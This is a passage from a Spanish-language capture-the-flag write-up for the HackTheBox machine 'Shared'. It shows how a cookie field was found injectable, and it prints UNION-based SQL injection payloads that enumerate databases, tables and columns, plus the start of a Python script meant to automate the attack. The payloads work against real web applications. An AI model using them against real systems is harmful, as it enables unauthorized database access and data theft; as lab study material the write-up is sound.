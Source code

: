 > Probamos una comilla simple (') en cada campo de la cookie, para mejor entendimiento un **diccionario ({key : value})**:

En el campo value **1** solo se refleja el input, por ello podemos inyectar codigo **html** y posiblemente un ataque **XSS**

En el campo key **53GG2EF8**:

![ValidateKeySQLi](validate_key_sqli.png){: .shadow}

Tomamos la salida como un posible error e intentamos hallar la cantidad de columnas y un campo vulnerable:

![KeySQLi](key_sqli.png){: .shadow}

Ahora enumeramos las bases de datos existentes:

> Payload: `' union select 1,(select group_concat(0x7c, schema_name, 0x7c) from information_schema.schemata),3-- -`

![DBSqli](databases_sqli.png){: .shadow}

Los pasos que siguen son enumerar las **tablas, columnas y ver sus campos**:

```console
--Tables of a database
' union select 1,2,3,group_concat(0x7c,table_name,0x7C) from information_schema.tables where table_schema=[database]

--Column names
' union select 1,2,3,group_concat(0x7c,column_name,0x7C) from information_schema.columns where table_name=[table name]
```

> Esta y más información lo encuentras en [Hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection#exploiting-union-based)
{: .prompt-info}

Lo que hice fue automatizar el proceso en un script en `python`, muy parecida a la máquina anterior pero con algunos cambios nuevos:

```python
import argparse
import requests
import signal
import sys
import urllib.parse
import urllib3

# pip install beautifulsoup4 & pip instal lxml
from bs4 import BeautifulSoup
# pip3 install pwn
from pwn import *


# SQLi:
#	custom_cart = {"53GG2EF8' and false union select null,(select group_concat(0x7c, version(), 0x7c), null#":  "1"}

# global variables

domain_host = 'shared.htb'
subdomain_host = 'checkout'
target_host = f'https://{subdomain_host}.{domain_host}'

# disable TLS warnings

urllib3.disable_warnings()
```